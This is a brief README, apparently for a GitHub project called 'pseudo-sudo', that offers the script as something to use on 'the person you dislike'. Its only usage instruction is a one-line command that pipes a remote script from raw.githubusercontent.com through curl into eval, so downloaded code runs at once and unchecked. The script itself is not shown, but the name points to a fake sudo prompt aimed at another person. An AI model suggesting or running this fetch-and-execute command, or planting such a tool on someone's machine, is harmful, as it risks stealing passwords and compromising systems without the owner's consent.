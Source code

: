 # pseudo-sudo
This is grateful script for the person you dislike

## Usage
```bash
eval "$(curl -L https://raw.githubusercontent.com/miyake13000/pseudo-sudo/refs/heads/main/pseudo-sudo.sh)"
```
